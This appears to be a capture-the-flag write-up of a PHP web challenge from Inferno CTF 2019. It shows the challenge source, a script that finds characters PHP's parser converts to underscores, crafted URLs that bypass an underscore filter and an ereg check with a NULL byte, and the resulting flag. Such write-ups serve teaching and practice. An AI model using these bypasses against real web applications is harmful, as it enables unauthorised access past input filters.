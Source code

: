 # Inferno CTF 2019 – Dante's Personal Home Page

* **Category:** web
* **Points:** 180

## Challenge

> Dante has used some PHP on his site but it only allows magicians to enter. Show him your magical skills!!
> 
> http://104.197.168.32:17011/
> 
> Author : MrT4ntr4

## Solution

The website will show its own source code.

```php
<?php
include("flag.php");

if (isset ($_GET['__magic__'])) {
    $magic = $_GET['__magic__'];

    $check = urldecode($_SERVER['QUERY_STRING']); 

    if(preg_match("/_| /i", $check)) 
    { 
        die("Get yourself some coffee"); 
    } 

    if (ereg ("^[a-zA-Z0-9]+$", $magic) === FALSE)
        echo 'Only Alphanumeric accepted';
    else if (strpos ($magic, '$dark$') !== FALSE)
    {
        if (!is_array($magic)){
            echo "Congratulations! FLAG is : ".$flag;
        }
        else{
            die("You darn!!");
        }
    }
    else
        {
            die("Your magic doesn't work on me");
        }
} else {
  show_source(__FILE__);
}
?>
```

There are a couple of checks that must be bypassed to get the flag.

The first part is the following.

```php
if (isset ($_GET['__magic__'])) {
    $magic = $_GET['__magic__'];

    $check = urldecode($_SERVER['QUERY_STRING']); 

    if(preg_match("/_| /i", $check)) 
    { 
        die("Get yourself some coffee"); 
    } 
```

This check is pretty weird, because to bypass it you have to provide a GET parameter with underscores, but having a query string without underscores. So, yeah, there is a bit of magic, here...

According to [this website](https://www.secjuice.com/abusing-php-query-string-parser-bypass-ids-ips-waf/), PHP performs some string manipulation on input parameters' names in order to remove, for example, whitespaces and to convert characters in underscores.

This behavior can be abused crafting a string with chars that are converted to underscores, but they are not.

You can write a simple script to enumerate these chars.

```php
<?php

foreach(
        [
            "{chr}{chr}magic__",
            "__magic{chr}{chr}"
        ] as $k => $arg) {
            for($i=0;$i<=255;$i++) {
                echo "\033[999D\033[K\r";
                echo "[".$arg."] check ".bin2hex(chr($i))."";
                parse_str(str_replace("{chr}",chr($i),$arg)."=bla",$o);

                if(isset($o["__magic__"])) {
                    echo "\033[999D\033[K\r";
                    echo $arg." -> ".bin2hex(chr($i))." (".chr($i).")\n";
                }
            }
            echo "\033[999D\033[K\r";

            echo "\n";
    }
```

The output of the script is the following.

```  
{chr}{chr}magic__ -> 2e (.)
{chr}{chr}magic__ -> 5f (_)

__magic{chr}{chr} -> 20 ( )
__magic{chr}{chr} -> 2b (+)
__magic{chr}{chr} -> 2e (.)
__magic{chr}{chr} -> 5f (_)
```

So you can use the `.` char to craft the URL.

```
http://104.197.168.32:17011/?..magic..=foo
```

The website will answer the following.

```
Your magic doesn't work on me
```

At this point, the other check to bypass is the following.

```php
    if (ereg ("^[a-zA-Z0-9]+$", $magic) === FALSE)
        echo 'Only Alphanumeric accepted';
    else if (strpos ($magic, '$dark$') !== FALSE)
    {
        if (!is_array($magic)){
            echo "Congratulations! FLAG is : ".$flag;
```

So you can insert only alphanumeric chars, but you have to insert two `$` chars.

According to [this website](https://bugs.php.net/bug.php?id=44366), you can bypass the `ereg` instruction injecting a NULL byte. The result is a string that is correctly interpreted by `strpos` and, obviously, is not an array.

The final URL is the following.

```
http://104.197.168.32:17011/?..magic..=foo%00$dark$
```

The website will print the flag.

```
Congratulations! FLAG is : infernoCTF{1_gu3ss_y0ur_m4g1c_was_w4y_t00_d4rk}
```